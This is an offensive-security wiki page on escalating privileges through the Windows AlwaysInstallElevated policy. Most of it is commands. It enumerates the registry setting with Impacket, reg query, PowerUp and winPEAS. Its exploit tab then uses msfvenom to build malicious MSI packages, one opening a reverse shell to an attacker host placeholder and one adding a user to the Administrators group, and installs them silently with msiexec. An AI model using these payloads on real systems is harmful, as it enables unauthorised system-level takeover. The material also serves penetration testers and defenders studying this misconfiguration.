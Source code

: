 ```yaml
---
description: MITRE ATT&CK™  System Binary Proxy Execution - Msiexec - Technique T1218.007
---
```


# AlwaysInstallElevated

## Theory

The **AlwaysInstallElevated** policy feature offers ALL users on a Windows operating systems the ability to install an MSI package file with elevated (system) privileges.

## Practice

{% tabs %}
{% tab title="Enumerate - UNIX-like" %}
If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys. [Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to query registry remotely from a UNIX-like machine.

```bash
reg.py domain.local/username:password123@<TARGET_IP> query -keyName "HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
reg.py domain.local/username:password123@<TARGET_IP> query -keyName "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
```
{% endtab %}

{% tab title="Enumerate - Windows" %}
Manual verification of the activation of this parameter is very simple and can be done with two commands. If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Alternatively, using [PowerUp](https://github.com/PowerShellMafia/PowerSploit) from Powersploit we can enumerate the AlwaysInstallElevated policy.

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Alternatively, using the `systeminfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe systeminfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to generate a malicious MSI file and install it with `msiexec.exe`

Generate a malicious MSI

```bash
# Reverse Shell
v4resk㉿kali$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f msi > package.msi

# Add user to Administrators
v4resk㉿kali$ msfvenom -p windows/exec CMD='net localgroup administrators <YOUR_USER> /add' -f msi > package.msi
```

Then, after downloading it to the target, install the MSI file using msiexec

```powershell
msiexec.exe /quiet /qn /i package.msi
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://juggernaut-sec.com/alwaysinstallelevated/" %}
